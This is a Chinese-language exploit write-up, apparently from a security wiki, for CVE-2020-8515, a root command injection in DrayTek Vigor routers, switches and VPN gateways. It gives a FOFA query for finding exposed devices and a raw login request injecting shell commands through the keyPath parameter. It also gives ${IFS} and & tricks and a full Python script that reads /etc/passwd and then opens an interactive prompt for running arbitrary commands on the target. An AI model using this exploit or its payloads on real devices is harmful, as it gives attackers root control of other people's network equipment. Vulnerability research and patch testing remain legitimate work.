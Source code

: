 # DrayTek企业网络设备-远程命令执行-CVE-2020-8515

## 漏洞描述

DrayTek URI未能正确处理SHELL字符，远程攻击者可以利用该漏洞提交特殊的请求，可以ROOT权限执行任意命令。

远程命令注入漏洞被标记为CVE-2020-8515，主要影响了DrayTek Vigor网络设备，包括企业交换机、路由器、负载均衡器和VPN网关。

## 漏洞影响

> [!NOTE]
>
> Vigor2960 < v1.5.1
>
> Vigor300B < v1.5.1
>
> Vigor3900 < v1.5.1
>
> VigorSwitch20P2121 <= v2.3.2
>
> VigorSwitch20G1280 <= v2.3.2
>
> VigorSwitch20P1280 <= v2.3.2
>
> VigorSwitch20G2280 <= v2.3.2
>
> VigorSwitch20P2280 <= v2.3.2

## FOFA

> [!NOTE]
>
> title="Vigor 2960"

## 漏洞复现

登录页面抓包

![](DrayTek企业网络设备-远程命令执行-CVE-2020-8515.assets/1627363622293022.jpg)

请求包如下

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Content-Length: 67
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

action=login&keyPath=%27%0A%2fbin%2fls%0A%27&loginUser=a&loginPwd=a
```

![](DrayTek企业网络设备-远程命令执行-CVE-2020-8515.assets/16273636225853891.jpg)

其中出现注入点的参数为 **keyPath**

> [!NOTE]
>
> 出现空格需要替换，例如 cat /etc/passwd --> cat${IFS}/etc/passwd
>
> 可以使用 & 执行额外一条命令 (URL编码为 %26)

![](DrayTek企业网络设备-远程命令执行-CVE-2020-8515.assets/1627363622946313.jpg)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> pwd                                                \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = "action=login&keyPath=%27%0A%2fbin%2fcat${IFS}/etc/passwd%0A%27&loginUser=a&loginPwd=a"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Cmd = input("\033[35mCmd >>> \033[0m")
                if Cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, Cmd)
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)
        sys.exit(0)

def POC_2(target_url, Cmd):
    vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    Cmd = Cmd.replace(' ','${IFS}')
    data = "action=login&keyPath=%27%0A%2fbin%2f%26{}%0A%27&loginUser=a&loginPwd=a".format(Cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if response.status_code == 200:
            print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](DrayTek企业网络设备-远程命令执行-CVE-2020-8515.assets/1627363623261993.jpg)

## Goby & POC

> [!NOTE]
>
> Goby中已经包含此漏洞

![](DrayTek企业网络设备-远程命令执行-CVE-2020-8515.assets/16273636235731258.jpg)